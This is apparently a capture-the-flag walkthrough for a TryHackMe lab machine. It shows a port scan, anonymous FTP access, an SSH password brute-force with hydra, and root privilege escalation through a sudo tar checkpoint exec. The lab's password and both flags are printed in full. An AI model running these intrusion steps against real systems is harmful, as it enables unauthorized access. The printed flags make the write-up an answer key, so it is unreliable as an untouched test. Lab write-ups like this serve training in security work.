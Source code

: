 $   sudo nmap -Pn -T4 10.10.193.32
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-15 18:41 +0545
    Nmap scan report for 10.10.193.32
    Host is up (0.19s latency).
    Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
    PORT   STATE SERVICE
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http
====================================
#Let's try anonymous login in ftp port:

$   ftp 10.10.193.32 21
    Connected to 10.10.193.32.
    220 (vsFTPd 3.0.3)
    Name (10.10.193.32:devil): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    >

# Login Successfull.
now let's list files:
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
    -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
    226 Directory send OK.

==============================

Now let's grab the files and see what's over there.

Found user name lin in the task file.
Found paswords in the locks file.

# let's try to bruteforce ssh with the user lin

  $ hydra -l lin -P locks.txt 10.10.44.81 -t 4 ssh
  [DATA] attacking ssh://10.10.44.81:22/
  [22][ssh] host: 10.10.44.81   login: lin   password: RedDr4gonSynd1cat3
  1 of 1 target successfully completed, 1 valid password found

# Found the password: "RedDr4gonSynd1cat3" for user: "lin"

=================================

# Now let's try loggin in using ssh:
  $ssh lin@10.10.44.81
  
# Successfully loged in as lin:
    lin@bountyhacker:~/Desktop$

=================================

# now let's look for user flag:

    lin@bountyhacker:~/Desktop$ ls
    user.txt

# Found the user flag:

    lin@bountyhacker:~/Desktop$ cat user.txt
    THM{CR1M3_SyNd1C4T3}

=================================

# Now let's try to get root flag.

Now let's look for some way to escilate the privilage

after some enumeration in the directories I didn't found any interisting files or directories.

# First let's check if there are any jobs running:
    lin@bountyhacker:~/Desktop$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
=================================

So now let's check our sudo privilages:

    lin@bountyhacker:~/Desktop$ sudo -l
    [sudo] password for lin: 
    Matching Defaults entries for lin on bountyhacker:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User lin may run the following commands on bountyhacker:
        (root) /bin/tar

=================================
# Seems we can use /bin/tar as root.

    Now let's use this binary to get a root shell:

    lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    tar: Removing leading `/' from member names
    # 

=================================
# Got the shell wowo...

# Now let's take the root flag at /root/root.txt..!

    # cat /root/root.txt
    THM{80UN7Y_h4cK3r}.